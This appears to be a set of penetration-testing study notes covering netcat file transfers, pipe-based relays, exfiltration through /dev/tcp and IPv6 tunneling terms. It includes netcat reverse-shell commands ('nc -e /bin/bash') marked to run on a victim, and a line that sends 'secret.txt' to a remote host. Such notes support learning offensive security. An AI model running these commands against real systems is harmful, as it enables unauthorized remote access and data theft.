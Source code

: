 
Conduct Uncommon Methods of File Transfer
> Netcat (Reads a writes data across network socket connections using TCP/IP protocol)
  [CLIENT TO LISTENER FILE TRANSFER]
  /> nc -lvp 9001 > newfile.txt
    > # Listener (receive file)
  /> nc 172.16.82.106 9001 < file.txt
    > # Client (sends file)

  [LISTENER TO CLIENT FILE TRANSFER]
  /> nc -lvp 9001 < file.txt
    > # Listener (sends file)
  /> nc 172.16.82.106 9001 > newfile.txt
    > # Cleint (recieve file)

  [NETCAT RELAY LISTENER TO LISTENER]
  /> mknod mypipe p (makes node) or mkfifo mypipe
    > nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

  [EXAMPLE DIAGRAM]
              nc -lvp 1111 < mypipe | nc -lvp 2222 > mypipe
  
          [1]   ----->            [2]             <-----  [3]
         nc [2] 1111                              nc -lvp 1111
                                                  (nc [2] 2222)

  [NETCAT RELAY CLIENT TO CLIENT]
  /> nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe


  [FILE TRANSFER WITH /DEV/TCP]
  /> nc -lvp 1111 > devtcpfile.txt
    > # On the recieving box
  /> cat secret.txt > /dev/tcp/10.10.0.40/1111
    > # This method is useful for a host that does not have NETCAT available

Reverse shell using NetCat
/> nc -lvp 9999
  > # First listen for the shell on your device
/> nc -c /bin/bash 10.10.0.40 9999
  > # On victim using -c
/> nc -e /bin/bash 10.10.0.40 9999
  > # On victim using -e

XXD
/> echo "Hex encoding test" | xxd -p
/> echo "48657820656e636f64696e6720746573740a" | xxd -r -p




Tunneling Overview
> Dual Stack
  > # Both IPv6 and IP4
> 6in4
  > # IPv6 encapsulated into IPv4
> 6to4
  > # Translates IPv6 to IPv4
> 4in6
  > # IPv4 encapsulated in IPv6
> Teredo
  > # Uses the 2001:0000::/32 prefix
> ISATRAP
